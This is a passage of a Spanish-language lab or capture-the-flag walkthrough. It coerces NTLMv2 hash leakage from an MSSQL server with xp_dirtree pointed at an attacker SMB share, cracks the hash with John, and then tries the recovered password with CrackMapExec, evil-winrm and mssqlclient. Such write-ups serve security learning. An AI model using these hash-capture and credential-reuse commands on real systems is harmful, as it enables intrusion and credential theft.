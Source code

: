     ```bash
    xp_dirtree "\\10.10.14.8\smbFolder\test"
    ```

Ya podemos ver que la conexion a funcionado y que podemos ver un hash NTLMv2 del usuario **mssql-svc**.
Aqui copiamos el hash en un fichero y lo crackeamos con John. A vezes el hash puede que no sea del todo correcto, y si es
el caso, podemos intentar hacer la misma maniobra con la herramienta **responder** en vez de la **impacket-smbserver**

1. En la maquina de atacante, creamos un recurso compartido con smb

    ```bash
    python3 /usr/share/responder/Responder.py -I tun0 -rdw
    ```

1. En el mssql lanzamos el comando

    ```bash
    xp_dirtree "\\10.10.14.8\EEEE"
    ```

Aqui podemos ver que tambien se puede interceptar el hash NTLMv2.

### Crackeo de hash NTLMv2 con John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya hemos podido crackear el hash NTLMv2 del usuario **mssql-svc**. Y como siempre cuando el servicio **SMB** esta abierto, 
nueva credencial obtenida, nueva credencial que validamos con CrackMapExec.

### Validacion de las creds de mssql-svc {-}

```bash
crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

CrackMapExec nos reporta un **[+]** quiere decir que las credenciales son validas. Nuevamente intentamos conectarnos por
WinRM

### Conexion con evil-winrm usuario mssql-svc {-}

Como tenemos credenciales y que sabemos que son validas, intentamos conectarnos con **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.125 -u 'mssql-svc' -p 'corporate568'
```

Aqui tampoco nos funciona.

### Conexion al servicio MSSQL usuario mssql-svc {-}

```bash
/usr/local/bin/mssqlclient.py WORKGROUP/mssql-svc:corporate568@10.10.10.125 -windows-auth

SQL> 
```
